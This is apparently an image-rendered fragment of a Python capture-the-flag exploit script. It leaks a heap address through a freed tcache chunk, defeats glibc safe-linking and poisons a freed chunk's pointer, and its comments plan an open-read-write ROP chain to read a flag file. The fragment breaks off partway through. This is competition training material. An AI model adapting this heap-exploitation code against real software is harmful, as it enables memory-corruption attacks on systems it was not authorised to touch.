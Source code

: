 ```python
    return (pos >> 12) ^ ptr

def exploit(io, libc=null, cdll=null):
    if LOCAL==True:
        #raw_input("Fire GDB!")
        if len(sys.argv) > 1 and sys.argv[1] == "d":
            choosen_gdb = [
                "source /home/mydata/tools/gdb/gdb-pwndbg/gdbinit.py",     # 0 - pwndbg
                "source /home/mydata/tools/gdb/gdb-peda/peda.py",          # 1 - peda
                "source /home/mydata/tools/gdb/gdb-gef/.gdbinit-gef.py"    # 2 - gef
                ][2]
            cmd = choosen_gdb + """
            # b *verify+0x158
            # b *$rebase(0x161f)
            # b *$rebase(0x165c)
            # b *$rebase(0x1665)
            # b *verify+0x17e

            # b *$_base()+0x1845
            # b *$_base()+0x181f
            # b *$rebase(0x1661)
            b *order+0x7c
            disable breakpoints 1
            c
            """
            gdb.attach(io, gdbscript=cmd)


    FLAG_LOCATION = b"/proc/self/cwd/flag.txt\x00" # given by the probset
    # used for ORW ROP later
    if LOCAL:
        open_fd = 3 
    elif REMOTE:
        open_fd = 5

    add(0, b"AAAA\x00")
    add(1, b"BBBB\x00")
    add(2, b"CCCC\x00")
    add(3, FLAG_LOCATION) # also used for preventing chunk consolidate with top chunk

    delete(0)
    # tcachebins [0x30]: CHUNK_0 (CHUNK_0 will contain : CHUNK_0 address >> 12)

    resp = edit(0, write_data=False)
    print(resp)
    LEAKED_HEAP = u64(resp.ljust(8, b"\x00")) << 12
    HEAP_BASE = LEAKED_HEAP - 0x1000
    print("LEAKED_HEAP              :", hex(LEAKED_HEAP))
    print("HEAP_BASE                :", hex(HEAP_BASE))
    CHUNK = []
    for i in range(4): # 0 - 3
        CHUNK.append(LEAKED_HEAP + 0xe30 + (0x30*i))

    print("CHUNK[0]                 :", hex(CHUNK[0]))
    print("CHUNK[1]                 :", hex(CHUNK[1]))
    print("CHUNK[2]                 :", hex(CHUNK[2]))
    print("CHUNK[3]                 :", hex(CHUNK[3]))

    add(0, b"AAAA")

    delete(0)
    edit(0, p64(obf(LEAKED_HEAP, 0)), p64(0)+p64(0xdeadbeef))
    delete(0)
```